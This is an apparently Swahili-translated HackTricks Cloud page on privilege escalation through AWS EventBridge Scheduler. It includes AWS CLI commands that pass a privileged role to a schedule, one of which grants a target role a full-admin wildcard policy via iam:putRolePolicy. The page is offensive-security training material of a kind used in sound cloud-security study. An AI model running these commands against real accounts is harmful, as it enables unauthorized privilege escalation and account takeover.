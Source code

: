 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler inaweza kutumika kwa ajili ya kupandisha hadhi kwa kupanga simu kwa huduma mbalimbali za AWS. Kwa kutumia uwezo wake wa kuita huduma kwa msingi wa ratiba, watumiaji wenye ruhusa za kutosha wanaweza kupandisha hadhi. Hapa kuna baadhi ya hatua muhimu ambazo EventBridge Scheduler inaweza kuchochea kwa kutumia malengo yaliyotengenezwa:

* Lambda: lambda:InvokeFunction - Kuita kazi za Lambda kwa ratiba.
* CodeBuild: codebuild:StartBuild - Anza miradi ya AWS CodeBuild.
* CodePipeline: codepipeline:StartPipelineExecution - Chochea utekelezaji wa AWS CodePipeline.
* ECS: ecs:RunTask - Endesha kazi za ECS.
* EventBridge: events:PutEvents - Weka matukio ndani ya EventBridge.
* Inspector: inspector:StartAssessmentRun - Anza tathmini za Amazon Inspector.
* Kinesis: kinesis:PutRecord - Weka rekodi ndani ya Kinesis streams.
* Firehose: firehose:PutRecord - Weka rekodi ndani ya Firehose delivery streams.
* SageMaker: sagemaker:StartPipelineExecution - Anza utekelezaji wa SageMaker pipeline.
* SNS: sns:Publish - Chapisha ujumbe kwenye mada za SNS.
* SQS: sqs:SendMessage - Tuma ujumbe kwenye foleni za SQS.
* Step Functions: states:StartExecution - Anza utekelezaji wa AWS Step Functions.

Hizi ni baadhi tu ya hatua zilizotengenezwa ambazo EventBridge Scheduler inaweza kutekeleza. Hata hivyo, kwa kutumia malengo ya ulimwengu wote, hatua nyingi nyingine katika huduma za AWS zinaweza kuitwa. Malengo ya ulimwengu wote yanaruhusu operesheni za API zaidi ya orodha iliyotengenezwa.

Maelezo zaidi kuhusu EventBridge Scheduler katika:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Watumiaji wenye ruhusa za `sts:AssumeRole`, `iam:PassRole`, na `scheduler:CreateSchedule or scheduler:UpdateSchedule` wanaweza kupandisha hadhi kwa kutumia EventBridge Scheduler kuitisha huduma kwa kutumia jukumu lenye hadhi ya juu.

Kwa ruhusa hizi, mshambuliaji anaweza kuchukua jukumu lenye hadhi ya juu na kupitisha jukumu hilo kwa EventBridge Scheduler wakati wa kuunda au kuboresha ratiba. Ratiba inaweza kuandaliwa ili kutekeleza yoyote ya hatua zilizoorodheshwa hapo awali, kama vile kuita kazi za Lambda, kuanzisha kazi za ECS, kuchochea utekelezaji wa CodePipeline, au operesheni yoyote ya huduma 270 za AWS zinazoungwa mkono na EventBridge Scheduler. Kwa kupanga hatua hizi, mshambuliaji anaweza kutumia hadhi ya juu kufanya operesheni zisizoidhinishwa katika huduma za AWS. \\

Kwa mfano, wanaweza kuandaa ratiba kuitisha kazi ya Lambda ambayo ni hatua iliyotengenezwa:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Mbali na hatua za huduma zilizotengenezwa, unaweza kutumia malengo ya ulimwengu katika EventBridge Scheduler ili kuitisha anuwai kubwa ya operesheni za API kwa huduma nyingi za AWS. Malengo ya ulimwengu yanatoa kubadilika kuitisha karibu kila API. Mfano mmoja unaweza kuwa kutumia malengo ya ulimwengu kuongeza "AdminAccessPolicy", ukitumia jukumu ambalo lina sera ya "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
